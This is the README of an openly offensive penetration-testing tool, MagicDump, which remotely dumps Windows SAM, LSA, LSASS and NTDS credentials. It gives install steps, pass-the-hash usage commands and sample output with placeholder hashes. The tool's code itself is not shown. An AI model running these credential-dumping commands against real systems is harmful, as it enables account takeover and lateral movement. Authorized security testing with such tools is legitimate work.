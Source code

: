 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSA, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - (Upcoming) Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash>] [--local-auth] [-v]
```

<br>

### Arguments
`-t` / `--target`: Specify the target IP address of the Windows machine.
`-u` / `--username`: Specify the username to authenticate as.
`-p` / `--password`: Specify the password for authentication.
`-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
`--local-auth`: Use local authentication (optional).
`-v` / `--verbose`: Enable verbose output for debugging (optional).
`-h` / `--help`: Show usage info

<br>

---

<br>

## Examples
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

```bash
./MagicDump -t 192.168.1.100 -u administrator -H '0123456789abcdef0123456789abcdef'
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'administrator'...
[INFO] Starting SAM dump using netexec...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to ~/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt
[SAM HASHES FOUND]:
SMB                      192.168.1.100    445    HOST               administrator:500:aad3b435b51404eeaad3b435b51404ee:0123456789abcdef0123456789abcdef:::
SMB                      192.168.1.100    445    HOST               Guest:501:aad3b435b51404eeaad3b435b51404ee:abcdefabcdefabcdefabcdefabcdef:::
SMB                      192.168.1.100    445    HOST               DefaultUser:503:aad3b435b51404eeaad3b435b51404ee:deadbeefdeadbeefdeadbeefdeadbeef:::
[INFO] Starting LSA dump using netexec...
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to ~/.magicdump/dumps/192.168.1.100/LSA_192.168.1.100.txt
[LSA SECRETS FOUND]:
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes256-cts-hmac-sha1-96:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes128-cts-hmac-sha1-96:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:des-cbc-md5:cccccccccccccccc
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:plain_password_hex:d41d8cd98f00b204e9800998ecf8427e
SMB                      192.168.1.100    445    HOST               NL$KM:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\service_user:ServicePass123
[INFO] Starting LSASS dump using lsassy...
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dump saved to ~/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt
[LSASS CREDENTIALS FOUND]:
EXAMPLE\service_user abcdefabcdefabcdefabcdefabcdefabcdef
[INFO] Dumping complete. Logs saved to ~/.magicdump/logs/192.168.1.100/report_192.168.1.100_20250105080107.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T14:00:00Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt"
    },
    "NTDS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
      "method": "ntdsutil"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt",
    "Starting NTDS dump using ntdsutil...",
    "NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
    "Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
